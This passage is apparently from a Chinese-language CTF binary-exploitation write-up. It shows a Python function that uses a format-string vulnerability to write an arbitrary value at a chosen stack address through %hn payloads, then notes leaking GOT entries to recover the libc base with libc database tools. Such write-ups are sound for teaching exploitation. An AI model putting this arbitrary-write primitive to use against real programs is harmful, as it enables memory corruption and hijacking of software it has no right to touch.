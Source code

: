 ```python
def var_in_stack_addr(stack_addr, val):
    #利用格式化字符串漏洞在指定栈地址stack_addr下写入任意值val
    saddr_low = (stack_addr + 2) & 0xffff
    payload1 = "%"+str(saddr_low) + "d" + "%9$hn"
    p.sendline(payload1)
    p.recvrepeat(0.5)

    saddr_high = (stack_addr) & 0xffff
    payload2 = "%" + str(saddr_high) + "d" + "%10$hn"
    p.sendline(payload2)
    p.recvrepeat(0.5)

    val_high = (val & 0xffff0000) >> 16
    val_low = val & 0xffff
    payload3 = "%" + str(val_high)+"d" + "%57$hn"  
    p.sendline(payload3)
    p.recvrepeat(0.5)

    payload4 = "%" + str(val_low)+"d"+"%59$hn"
    p.sendline(payload4)
    p.recvrepeat(0.5)
```

现在通过泄露read、printf等任意函数的got表中地址，获取libc的基地址。但由于没有libc.so的版本信息，因此借用已有的工具[libc database search](https://libc.blukat.me/)或LibcSearcher 来获取其他函数的偏移。

![](\img\trifles\clip_image026.png)
